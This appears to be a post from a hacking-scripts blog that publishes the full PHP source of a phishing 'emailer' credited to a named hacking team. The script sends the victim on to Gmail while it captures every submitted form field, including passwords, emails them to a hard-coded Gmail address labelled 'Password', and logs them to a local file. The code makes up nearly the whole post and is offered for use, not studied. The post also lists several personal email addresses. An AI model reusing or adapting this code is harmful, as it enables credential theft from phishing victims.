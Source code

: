 ```yaml
---
id: 237
title: Emailer script
author: admin
layout: post
guid: http://hackingscripts.com/?p=237
permalink: /emailer-script/
categories:
  - PHP
tags:
  - emailer
  - PHP
---
```

Emailer script &#8211; Coded by Hangaw_HawlerY of H4KurD-TeaM


### Emailer Script Source Code

{% highlight php linenos %}<?php

/* 
H4KurD-TeaM
www.h4kurd.com
Coded By : Hangaw_HawlerY
Email: Hangaw_HawlerY@Yahoo.com , Hangaw_HawlerY@Hotmail.com 
All Right Reserved
*/

header ('Location: https://www.gmail.com');

$posts        = '';
foreach($_POST as $k => $v){
    $posts .= '$_POST['.$k.'] = '.$v."\n";
}

$posts       .= "---------------------------------------------------\n";
$emailto    = 'pramod.sin321@gmail.com';
$subject    = $_SERVER['HTTP_HOST']."-".$_SEREVER['SERVER_NAME'];
$from        = "From: Password <h4kurd.team@gmail.com>";
$body        = '
'.$posts.'
';

@mail($emailto, $subject, $body, $from);
$handle = @fopen("h4kurd.txt", "a+");
@fwrite($handle, $posts);
fclose($handle);
?>
{% endhighlight %}